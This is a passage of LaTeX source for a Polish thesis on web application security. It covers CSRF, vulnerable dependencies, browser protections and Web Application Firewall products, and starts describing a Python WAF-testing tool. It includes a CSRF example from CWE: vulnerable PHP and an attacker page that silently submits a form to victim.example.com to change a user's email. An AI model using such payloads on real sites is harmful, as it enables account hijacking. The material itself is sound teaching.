<input type="text" name="firstname"/>
<input type="text" name="lastname"/>
<br/>
<input type="text" name="email"/>
<input type="submit" name="submit" value="Update"/>
</form>
\end{lstlisting}

\begin{lstlisting}[language=php,frame=single,caption=przykładowy kod PHP podatny na atak CSRF \cite{csrf-example},label=csrf02,numbers=left]
// initiate the session in order to validate sessions

session_start();

//if the session is registered to a valid user then allow update

if (! session_is_registered("username")) {

echo "invalid session detected!";

// Redirect user to login page
[...]

exit;
}

// The user session is valid, so process the request
// and update the information

update_profile();

function update_profile {
// read in the data from $POST and send an update
// to the database
SendUpdateToDatabase($_SESSION['username'], $_POST['email']);
[...]
echo "Your profile has been successfully updated.";
}
\end{lstlisting}

\begin{lstlisting}[language=html,frame=single,caption=przykładowy kod HTML wykorzystujący atak CSRF \cite{csrf-example},label=csrf03,numbers=left]
<SCRIPT>
function SendAttack () {
form.email = "attacker@example.com";
// send to profile.php
form.submit();
}
</SCRIPT>

<BODY onload="javascript:SendAttack();">

<form action="http://victim.example.com/profile.php" id="form" method="post">
<input type="hidden" name="firstname" value="Funny">
<input type="hidden" name="lastname" value="Joke">
<br/>
<input type="hidden" name="email">
</form>
\end{lstlisting}

Kod przedstawiony na przykładzie \ref{csrf01} zawiera przykładowy formularz na stronie internetowej, który składa się z pól umożliwiających wprowadzenie imienia, nazwiska i adresu e-mail. Zatwierdzenie formularza kieruje do strony umieszczonej na przykładzie \ref{csrf02}. Kod PHP sprawdza poprawność sesji użytkownika i aktualizuje dane przesłane w formularzu. Atakujący przygotowuje stronę (przykład \ref{csrf03}), na której umieszcza ukryty formularz. Po załadowaniu wykonuje się kod JavaScript, który wypełnia pola formularza i zatwierdza akcję. Ofiara nieświadomie zostaje przekierowania na stronę z przykładu \ref{csrf02} i przesyła tam dane przygotowane przez atakującego. Sesja przejdzie proces walidacji i dane zostaną zaktualizowane --- atak został wykonany poprawnie.

\subsection{Korzystanie z komponentów o znanych podatnościach}
Współczesne aplikacje internetowe korzystają z wielu komponentów, które zostały wykonane przez innych programistów i opublikowane w Internecie. Często są to duże biblioteki rozwijane przez społeczność, która składa się z osób o różnym doświadczeniu i wiedzy na temat metod bezpiecznego programowania. Wyzwaniem dla twórców oprogramowania jest ciągłe monitorowanie i weryfikacja aplikacji pod kątem podatności znalezionych w komponentach zależnych. 

Biblioteki JavaScript często w nagłówkach plików zawierają informacje o wersji kodu. Te i inne informacje mogą być znalezione przez atakującego przy pomocy zautomatyzowanych procesów, a następnie wykorzystane do wykonania pełnej gamy ataków. Podobny problem może występować w bibliotekach wykorzystywanych po stronie serwera, gdzie ich istnienie można weryfikować na podstawie odpowiedzi serwera HTTP po zapytaniu o konkretny adres URL. 

Niestety, monitorowanie podatności komponentów nie jest łatwym zadaniem. Nie wszystkie informacje trafiają do baz takich jak CVE czy NVD, nie istnieje również żaden standard opisu podatności. Proces często wymaga śledzenia wielu list dyskusyjnych czy stron internetowych, co ciężko jest zautomatyzować. Dla projektów realizowanych w JavaScript można wykorzystać projekt \cite{nodesec}, a dla języka Ruby stworzono \cite{rubysec}. Dla języków Java i .NET organizacja OWASP opublikowała projekt OWASP Dependency Check \cite{owaspdc}.

\subsubsection*{Przykład}
Play Framework \cite{playfw} to zrąb projektowy pozwalający na tworzenie aplikacji internetowych w językach Java i Scala. Oprogramowanie opierające się o Play w wersjach 2.0.0 - 2.4.6 były podatne na atak CSRF gdy przeglądarką ofiary był Google Chrome. Podatność opublikowana przez producenta \cite{playv1} zawierała opis obejścia podatności przez zmianę konfiguracji. Oficjalnym zaleceniem była aktualizacja wersji Play do 2.5.0.

\subsection{Niewystarczająca ochrona interfejsów programistycznych (API)}
Interfejsy programistyczne udostępniane przez współczesne aplikacje internetowe są przeznaczone do wykorzystywania w zewnętrznych aplikacjach. Brak interfejsu użytkownika, skomplikowane protokoły i struktury danych, różnorodne formaty (REST, XML, JSON, GWT, RPC) --- to czynniki, które utrudniają testy bezpieczeństwa. Wszystkie dotychczas przedstawione podatności mogą znajdować się również w API i należy podjąć odpowiednie kroki aby interfejs był bezpieczny i systematycznie testowany.

Podstawowym elementem jest szyfrowanie kanałów komunikacji przy pomocy TLS. Przesyłanie danych przy pomocy jawnego tekstu może spowodować wyciek danych. Następnie należy zweryfikować metodę uwierzytelnienia i autoryzacji zapytań użytkowników, czy wykorzystywane algorytmy szyfrowania są odpowiednio silne a dane użytkowników przechowywane w bezpieczny sposób. Interfejsy programistyczne bardzo często przyjmują dane od użytkowników, prawidłowa walidacja danych zapewni ochronę przed atakami typu iniekcja kodu czy XSS.

Interfejsy programistyczne są często wykorzystywane przez aplikacje mobilne do komunikacji z serwisem macierzystym. Przy pomocy inżynierii wstecznej atakujący może poznać kod źródłowy aplikacji i protokół komunikacji z serwerem. Przy projektowaniu API programista powinien mieć na uwadze fakt, że osoby niepowołane mogą poznać wykorzystywane algorytmy i struktury danych, dlatego zastosowanie odpowiednich zabezpieczeń i kontroli dostępu jest konieczne nawet w przypadku zamkniętego oprogramowania.

\section{Mechanizmy wbudowane w przeglądarki internetowe}
Nowoczesne przeglądarki internetowe implementują wiele mechanizmów chroniących użytkownika przed atakami typu XSS czy CSRF. Wykorzystanie znalezionej podatności na stronie internetowej jest często niemożliwe, ponieważ wspomniane mechanizmy blokują żądania HTTP na poziomie klienta. Podczas projektowania aplikacji i konfiguracji serwerów WWW należy mieć na uwadze wymagane dodatkowe nagłówki, których wartość jest weryfikowana podczas dynamicznych lub zagnieżdżonych odwołań (szczególnie między domenami). Organizacja OWASP opublikowała listę kilku najważniejszych zabezpieczeń zaimplementowanych w przeglądarkach \cite{html5security}.

\subsection{Wiadomości między domenami}
Przesyłanie wiadomości między dokumentami sieci Web zostało wprowadzone w specyfikacji HTML5. Wcześniej przeglądarki nie umożliwiały komunikacji między stronami internetowymi ze względów bezpieczeństwa. Udostępniony interfejs programistyczny pozwala na weryfikację adresu domeny nadawcy (ang.~\textit{origin}). Ważna jest również weryfikacja danych przesyłanych przy pomocy kanału. Nigdy nie należy traktować tych danych jako zaufane, w szczególności niezalecane jest bezpośrednie przekazanie treści wiadomości do interpretera (funkcje typu \textit{eval}).

\subsection{Cross Origin Resource Sharing --- współdzielenie zasobów między domenami}
Mechanizm ten pozwala na wykoniwanie asynchronicznych żądań (AJAX) między serwerami o różnych domenach przy zachowaniu weryfikacji źródła żądania. W przypadku dynamicznego odwołania do innej domeny, przeglądarka wyśle najpierw żądanie typu \textit{OPTIONS} i zweryfikuje zawartość nagłówka \textit{Access-Control-Allow-Origin}. Wartość \textit{*} pozwala na odwołania do zasobów z dowolnego źródła. Wszystkie inne żądania, które nie pasują do wzorca zdefiniowanego w wartości nagłówka zostaną zablokowane na poziomie przeglądarki (odpowiednia informacja o błędzie zostanie zazwyczaj wyświetlona w konsoli interpretera języka JavaScript). Mechanizm CORS pozwala również na weryfikację dopuszczalnych nagłówków przesłanych w żądaniu.

\subsection{HTTP Strict Transport Security}
HSTS to mechanizm zabezpieczający przed zmniejszeniem poziomu bezpieczeństwa kanału i przechwyceniem sesji. Serwer informuje przeglądarkę o stosowaniu HSTS przy pomocy nagłówka \textit{Strict-Transport-Security}, którego parametr oznacza czas przez który przeglądarka powinna wykorzystywać wyłącznie połączenia szyfrowane. Wszystkie odwołania do strony internetowej powinny być automatycznie tłumaczone z \textit{http://} na \textit{https://}, a jeżeli certyfikat jest niezaufany --- przeglądarka nie powinna pozwolić użytkownikowi na nawiązanie połączenia.

\subsection{HTTP Public Key Pinning}
Połączenie szyfrowane przy pomocy SSL nie gwarantuje tożsamości drugiej strony bez weryfikacji klucza publicznego drugiej strony. Atakujący mogą wykorzystać słabości mechanizmów urzędów certyfikacji i zmusić je do wydania certyfikatu typu DV (weryfikacja domeny), co przy próbie podszycia może dać złudne poczucie bezpieczeństwa komunikacji z serwerem. HPKP pozwala na przesłanie w nagłówku \textit{Public-Key-Pins} zestawu kluczy publicznych, które przez określony czas przeglądarka powinna uznawać za jedyne poprawne i nie dopuszczać do nawiązania połączenia z serwerem, który przedstawia się przy pomocy innego klucza.

\section{Web Application Firewall}
\label{waf}
Web Application Firewall to zapora sieciowa dla aplikacji webowych. Dokonuje ona ewaluacji reguł na konwersacji HTTP. Reguły te pokrywają standardowe atacki takie jak iniekcja kodu SQL czy XSS. WAF ma za zadanie chronić aplikację internetową, przyjmuje żądania od wielu klientów i kieruje je na serwery WWW, stąd można go uznać jako odwrotny serwer pośredniczący, chociaż nie musi działać jako osobny proces.

WAF jest dedykowany do ochrony aplikacji webowych, analizuje ruch na warstwie 7.~modelu OSI. Jest w stanie wykryć i zablokować żądania, których analiza byłaby niemożliwa przy pomocy standardowych rozwiązań takich jak zapora sieciowa czy system IPS. Zastosowanie WAF jest całkowicie transparentne dla aplikacji i nie wymaga modyfikacji kodu źródłowego.

Zastosowanie tego rodzaju zabezpieczenia pozwala w znaczący sposób zredukować ryzyko wykorzystania podatności systemu bez faktycznego usunięcia tej podatności. W przypadku gdy wydanie odpowiedniej łatki na oprogramowanie może zająć bardzo dużo czasu --- dodanie odpowiednich reguł do zapory pozwala na uzyskanie szybkiej ochrony przed atakującymi.

Kontrola ruchu może być realizowana przy pomocy dwóch modeli:
\begin{itemize}
\item \textbf{model negatywny} --- definiuje wzorce żądań potencjalnie niebezpiecznych, które zostaną zablokowane, zmodyfikowane lub zapisane, pozostałe zostaną przepuszczone;
\item \textbf{model pozytywny} --- definiuje wzorce akceptowalnych żądań, pozostałe zostaną zablokowane lub zapisane w dzienniku.
\end{itemize}

Wyzwaniem dla administratora pozostaje stworzenie i aktualizacja listy reguł ewaluowanych przez zaporę. Reguły te powinny pokrywać zarówno odkryte podatności (przed wydaniem poprawki na oprogramowanie) jak i w maksymalny możliwy sposób chronić przed nieznanymi podatnościami, które mogą zostać wykorzystane zanim się o nich dowiemy, np.~jeżeli nasza aplikacja nie przyjmuje nigdzie danych zawierających słowa kluczowe języka SQL, to możemy stworzyć regułę w której wszystkie żądania zawierające słowa \textit{SELECT, UPDATE, DELETE} zostaną zablokowane.

\subsection{Oprogramowanie}
Web Application Firewall to mechanizm, który z powodzeniem może istnieć jako aplikacja uruchomiona w systemie operacyjnym. Proces ten działa dokładnie tak jak serwer WWW, ale realizuję funkcję odwrotnego pośrednika i po analizie żądania dokonuje blokady lub przekazuje pakiety do serwerów aplikacyjnych. Poniżej opisano dwa popularne rozwiązania WAF na licencji open-source.

\subsubsection{ModSecurity}
ModSecurity \footnote{\url{https://modsecurity.org/}} to wieloplatformowa zapora aplikacji sieciowych na licencji open-source. Oferuje szeroki wachlarz funkcjonalności, które można wykorzystać do ochrony przed atakami. Do najważniejszych scenariuszy zastosowań należy:
\begin{itemize} 
\item monitorowanie bezpieczeństwa aplikacji i kontroli dostępu w czasie rzeczywistym --- ModSecurity pozwala na podgląd strumienia danych HTTP,
\item dziennik ruchu HTTP --- pozwala na zapis pełnej konwersacji HTTP w postaci surowej, co jest istotnym czynnikiem przy analizach powłamaniowych;
\item ciągła pasywna ocena bezpieczeństwa --- monitorowanie w czasie rzeczywistym zachowania aplikacji i reagowanie na anomalie lub podatności, zanim zostaną one odkryte;
\item zwiększenie bezpieczeństwa aplikacji --- główne zastosowanie ModSecurity, któRe pozwala na ograniczenie możliwości protokołu HTTP do podzbioru koniecznego do realizowania funkcji oferowanych przez aplikację.
\end{itemize}

ModSecurity oferuje dwa tryby wdrożeniowe, dzięki czemu można dostosować go do aktualnej architektury systemu i ograniczyć konieczność modyfikacji plików konfiguracyjnych serwerów WWW. Wspierane opcje to:
\begin{itemize}
\item tryb wbudowany --- praca jako moduł Apache \footnote{\url{https://apache.org/}}, nie wymaga wprowadznia zmian w przepływie ruchu przez infrastrukturę, skaluje się razem z serwerami WWW z którymi współdzieli zasoby;
\item tryb samodzielny --- praca jako odwrotny serwer pośredniczący, polega na instalacji Apache z ModSecurity na osobnym serwerze, a następnie skonfigurowanie odpowiedniego przepływu danych do i z zapory, pozwala również na separację zasobów.
\end{itemize}

Organizacja OWASP rozwija i udostępnia projekt \textbf{OWASP ModSecurity Core Rule Set} \footnote{\url{https://www.owasp.org/index.php/Category:OWASP_ModSecurity_Core_Rule_Set_Project}}, którego celem jest dostarczenie łatwego w implementacji zestawu reguł wykrywających generyczne typy ataków, co pozwala na zapewnienie podstawowego poziomu protekcji dla każdej aplikacji internetowej. CRS oferuje zabezpieczenia przed: SQLi, XSS, zdalnym wykonaniem kodu, atakiem shellsock, przechwytywaniem i fiksacją sesji, itp.

\subsubsection{NAXSI}
NAXSI \footnote{\url{https://github.com/nbs-system/naxsi}} to darmowy, zewnętrzny moduł do serwera Nginx \footnote{\url{https://nginx.org/}}, który oferuje funkcjonalność WAF. Projekt zawiera również mały zestaw prostych reguł, które zawierają wzorce standardowych podatności aplikacji internetowych. Autorzy ostrzegają, że zastosowane wzorce mogą blokować poprawne żądania i należy dostosować białą listę (model pozytywny) do swoich potrzeb. Może to być wykonane ręcznie przez analizę dzienników zdarzeń albo przez tryb samouczący, który automatycznie wygeneruje zestaw reguł na podstawie zachowania aplikacji.

NAXSI nie polega na sygnaturach ataków, filtruje tylko żądania GET i POST, analizowany jest wyłącznie ruch przychodzący --- jeżeli złośliwy kod znajduje się już na stronie to żądania go zwracające nie będą blokowane.

Algorytm oceny zagrożenia jest następujący \cite{naxsi-sekurak}:
\begin{enumerate}
\item żądanie jest dzielone na strefy (ARGS, URL, BODY, HEADERS),
\item dla każdej strefy dokonuje się ewaluacji czarnej listy na podstawie której żądaniu przypisywane są punkty,
\item dla każdej strefy dokonuje się ewaluacji białej listy, której działanie może zignorować przyznane punkty;
\item punkty są sumowane,
\item jeżeli suma przekroczyła próg, żądanie jest blokowane.
\end{enumerate}

\subsection{Urządzenia}
Wiele firm oferujących sprzęt sieciowy ma w swojej ofercie urządzenia typu UTM, które posiadają moduły działające na zasadzie Web Application Firewall. Są to dedykowane urządzenia, które ingerują w infrastrukturę sieciową systemu, dlatego nie mogą być stosowane w miejscach, gdzie administrator nie ma pełnej kontroli nad warstwą sieciową.

\subsubsection{Citrix Netscaller Application Firewall}
Citrix Netscaller AppFirewall \cite{citrix} to komercyjny produkt wbudowany w urządzenia sieciowe firmy Citrix. Jest to kompleksowe rozwiązanie zapory aplikacyjnej, które analizuje ruch sieciowy w obu stronach (również szyfrowany przy pomocy SSL/TLS) i zabezpiecza przed zagrożeniami bezpieczeństwa. AppFirewall oferuje możliwość dokładnej analizy pakietów zawierających dane HTTP, HTTPS i XML.

Rozwiązanie to jest w stanie zabezpieczyć system przed atakami opisanymi w OWASP Top10, jak również analizować format żądań i odpowiedzi HTTP. Wbudowane mechanizmy pozwalają na zapobieganie ujawnieniu wrażliwych danych, np.~przeszukując dane pod kątem numerów kart kredytowych.

Citrix AppFirewall wykorzystuje hybrydowy model oceny zagrożenia (pozytywny i negatywny), dodatkowo posiada wbudowany system reputacji adresów IP, który na bieżąco analizuje połączenia i blokuje adresy, które zostały globalnie uznane za niebezpieczne. Lista jest tworzona na podstawie danych z milionów sensorów na całym świecie i jest aktualizowana co 5 minut.

\subsubsection{Fortinet FortiWeb}
Fortinet FortiWeb \cite{fortiweb} to rozwiązanie typu WAF oferowane przez sprzęt sieciowy firmy Fortinet. FortiWeb oferuje m.in.:
\begin{itemize}
\item do 20 Gbps przepustowości,
\item wykrywanie skorelowanych zagrożeń przy pomocy skanowania behawioralnego,
\item zaawansowana protekcja przez integrację z innymi produktami firmy Fortinet,
\item zaawansowane narzędzia do minimalizacji fałszywych alarmów,
\item integracja z narzędziami firm trzecich,
\item wirtualne łatki.
\end{itemize}

Zagrożenia są wykrywane na podstawie skorelowanych danych z następujących elementów systemu:
\begin{itemize}
\item reputacja IP,
\item ochrona przed DDoS,
\item walidacja protokołów,
\item skaner sygnatury ataków,
\item antywirus.
\end{itemize}

\subsection{Rozwiązania chmurowe}
Dostawcy rozwiązań chmurowych również w swojej ofercie mają Web Application Firewall w modelu SaaS (\textit{Software as a Service}). Często moduły te są zintegrowane z innymi usługami, np. Content Delivery Network. W odróżnieniu od sprzętu fizycznego, WAF jako usługa jest łatwy w implementacji oraz oferuje korzystny model płatności, np.~rozliczanie za liczbę reguł lub ilość danych.
\subsubsection{Amazon Web Services WAF}
AWS WAF to usługa oferowana w ramach Amazon Web Services \footnote{\url{https://aws.amazon.com}}. Pozwala na filtrowanie ruchu na podstawie stworzonych reguł, które mogą zawierać: adresy IP, nagłówki HTTP i ciągi znaków URI. Konfiguracja systemu jest możliwa przy pomocy interfejsów programistycznych, co pozwala na automatyzację mechanizmów wdrażania modelu bezpieczeństwa na podstawie zdefiniowanych przez programistów reguł. Usługa jest zintegrowana z CloudFront i Application Load Balancer. CloudFront to system CDN, który umożliwia geograficzne rozproszenie plików statycznych, co znacznie skraca czas ładowania dla użytkownika końcowego. Application Load Balancer oferuje rozkładanie obciążenia w ruchu HTTP między serwerami aplikacyjnymi, dzięki temu konfiguracja WAF abstrahuje od warstwy serwerów, które są odbiorcami ruchu. AWS WAF oferuje elastyczny model płatności, w którym właściciel płaci za liczbę posiadanych reguł i liczbę żądań, które zostały przesłane przez system.

Na uwagę zasługuje fakt, że CloudFront jest często wykorzystywany przez aplikacje internetowe, które nie są w pełni utrzymywane w infrastrukturze Amazon Web Services. Integracja mechanizmów WAF nie wymaga pełnej migracji do chmury publicznej.


\subsubsection{Cloudflare Cloud Web Application Firewall}
Cloud Web Application Firewall to usługa oferowana w ramach Cloudflare CDN, usługi podobnej do CloudFront. Oferowany mechanizm w znaczącym stopniu różni się od pozostałych tego typu usług. Zestaw reguł jest utrzymywany przez inżynierów bezpieczeństwa pracujących dla Cloudflare. W przypadku gdy pojawia się nowa podatność, a inżynierowie stwierdzą zagrożenie znacznej części użytkowników, reguła jest aplikowana dla całego systemu.

\begin{figure}[h]
\centering

\includegraphics[scale=0.7]{cloudflare}

\caption{przedstawienie szybkości czasu dodania reguły do Cloudflare WAF względem rozwiązań on-premise \cite{cloudflarewaf}}
\label{fig:cloudflare}
\end{figure}

Według dostawcy, zaledwie 2\% \footnote{stan na 14.06.2017 r.} zdarzeń blokowanych przez WAF powodują reguły zdefiniowane bezpośrednio przez użytkowników, natomiast 86\% to reguły zdefiniowane przez inżynierów Cloudflare.

Dodatkowym elementem systemu jest ,,inteligencja zbiorowa''. Kiedy użytkownik zdefiniuje własną regułę, system analizuje czy ma ona zastosowanie dla innych domen utrzymywanych przez Cloudflare. Jeżeli tak jest, to reguła zostaje zastosowana w całym systemie.


%\section{Intrusion Prevention System}

\chapter{Implementacja systemu}
W ramach niniejszej pracy stworzono narzędzie pozwalające na automatyczną weryfikację konfiguracji rozwiązań typu Web Application Firewall przez przeprowadzenie serii scenariuszy komunikacji HTTP i analizę odpowiedzi serwerów internetowych. Narzędzie wymagało zaprojektowanie języka formalnego, który służy do opisu komunikacji z serwerem. 

\section{Interpretery i biblioteki}
Do implementacji systemu wykorzystano język skryptowy Python i szereg bibliotek, które ułatwiły zarówno komunikację z użytkownikiem jak i przeprowadzenie komunikacji z serwerem.

\subsection{Python}
System został napisany w języku Python 3.6 \footnote{https://python.org/}. Jest to wieloparadygmatowy język interpretowany, stworzony w roku 1991 przez Guido van Rossuma w Centrum Matematyki i Informatyki w Amsterdamie.

Główny interpreter języka -- CPython został zaimplementowany w języku C i jest dostępny na wielu platformach, jednakże stworzone w ramach pracy narzędzie zostało przetestowane wyłącznie na systemach z rodziny GNU/Linux.

Język ten został wybrany ze względu na możliwość stosowania dowolnych paradygmatów programowania i dynamiczne typowanie. Narzędzie dokonuje wielu operacji na tekście i plikach, których realizacja we wspomnianym języku jest bardzo łatwa i zajmuje niewiele linii kodu. Te cechy Pythona znacznie skróciły czas potrzebny na implementację systemu. Dodatkową zaletą jest obecność interpretera CPython domyślnie po instalacji wielu dystrybucji systemu GNU/Linux.

\subsection{Biblioteka \textit{requests}}
Komunikacja z serwerami przy pomocy protokołu HTTP nie jest łatwa do osiągnięcia w większości języków programowania. Wbudowane mechanizmy są zazwyczaj bardzo niskopoziomowe, nie zawierają wbudowanych zabezpieczeń i bardzo łatwo jest popełnić trudne w wykryciu błędy. W przypadku biblioteki standardowej dostępnej w języku Python --- \textit{urllib} --- programista musi samodzielnie dbać o enkodowanie żądań, definiowanie odpowiednich nagłówków i obsługę błędów. Proste żądanie HTTP wymaga wielu kroków, co znacznie zaciemnia kod (przykład \ref{urllib}).

\begin{lstlisting}[language=python,frame=single,caption=Wykorzystanie biblioteki urllib,label=urllib,numbers=left]
import urllib.parse
import urllib.request

url = 'http://strona-przykladowa.com/rejestracja.php'
val = {'foo': 'bar'}

data = urllib.parse.urlencode(val)
req = urllib.request.Request(url, data)

response = urllib.request.urlopen(req)
result = response.read()
\end{lstlisting}

Z uwagi na powyższe, zdecydowano się na użycie zewnętrznej biblioteki \textit{requests} \footnote{\url{http://docs.python-requests.org/en/master/}}. Celem tej biblioteki jest dostarczenie interfejsu pozwalającego na przeprowadzanie żądań HTTP na odpowiednim poziomie abstrakcji. Kod z przykładu \ref{urllib} dzięki temu można skrócić do następującej formy:
\begin{lstlisting}[language=python,frame=single,label=req1,numbers=left]
import requests
url = 'http://strona-przykladowa.com/rejestracja.php'
val = {'foo': 'bar'}

res = requests.get(url, data=val)
\end{lstlisting}


 

\chapter{Testy funkcjonalne}


\chapter{Zakończenie}

\backmatter

\begin{thebibliography}{1}
\bibitem{cve} Common Vulnerabilities and Exposures, \url{https://cve.mitre.org/} [dostęp: 17 marca 2017]
\bibitem{wordpress} \url{https://wordpress.org/}
\bibitem{joomla} \url{https://www.joomla.org/}
\bibitem{ipb} \url{https://invisionpower.com/}
\bibitem{modsec} \url{https://modsecurity.org/}
\bibitem{owasp}\url{ https://www.owasp.org/}
\bibitem{symphony} \url{https://github.com/symphonycms/symphony-2/commit/b329a14adc40868965076a77210452e396243dcd.diff}
\bibitem{tweetdeck} \url{http://www.businessinsider.com/tweetdeck-major-security-vulnerability-twitter-2014-6} [dostęp 03.05.2017 r.]
\bibitem{directaccess} \url{https://cwe.mitre.org/data/definitions/285.html}
\bibitem{thecartpress} \url{https://www.htbridge.com/advisory/HTB23254} [dostęp: 06.05.2017 r.]
\bibitem{django} \url{https://www.djangoproject.com/}
\bibitem{wykop} \url{http://prawo.vagla.pl/node/8629} [dostęp: 06.05.2017 r.]
\bibitem{vk} \url{http://thehackernews.com/2016/06/vk-com-data-breach.html} [dostęp: 07.05.2017 r.]
\bibitem{csrf-example} \url{http://cwe.mitre.org/data/definitions/352.html} [dostęp: 12.06.2017 r.]
\bibitem{nodesec} \url{https://nodesecurity.io/}
\bibitem{rubysec} \url{https://rubysec.com/}
\bibitem{owaspdc} \url{https://www.owasp.org/index.php/OWASP\_Dependency\_Check}
\bibitem{playfw} \url{https://www.playframework.com/}
\bibitem{playv1} \url{https://www.playframework.com/security/vulnerability/20160304-CsrfBypass}
\bibitem{html5security} \url{https://www.owasp.org/index.php/HTML5\_Security\_Cheat\_Sheet} [dostęp: 13.06.2017 r.]
\bibitem{scholar1} Yao-Wen Huang, Shih-Kun Huang, Tsung-Po Lin, and Chung-Hung Tsai. 2003. Web application security assessment by fault injection and behavior monitoring. In Proceedings of the 12th international conference on World Wide Web (WWW '03). ACM, New York, NY, USA, 148-159.
\bibitem{scholar2} Dafydd Stuttard, Marcus Pinto. 2011. The Web Application Hacker's Handbook: Finding and Exploiting Security Flaws. Second Edition.
\bibitem{naxsi-sekurak} Daniel Iziourov. 2017. Czym jest Web Application Firewall? – część pierwsza: na przykładzie naxsi. Sekurak.pl. https://sekurak.pl/czym-jest-web-application-firewall-czesc-pierwsza-na-przykladzie-naxsi/ [dostęp 14.06.2017 r.]
\bibitem{cloudflarewaf} Cloudflare Web Application Firewall, \url{https://www.cloudflare.com/waf/}, [dostęp: 14.06.2017 r.]
\bibitem{citrix} Citrix NetScaler AppFirewall, \url{https://www.citrix.com.pl/products/netscaler-appfirewall/}, [dostęp: 1 sierpnia 2017 r.]
\bibitem{fortiweb} Fortinet FortiWeb WAF, \url{https://www.fortinet.com/products/web-application-firewall/fortiweb.html}, [dostęp: 1 sierpnia 2017 r.]
\end{thebibliography}

\end{document}
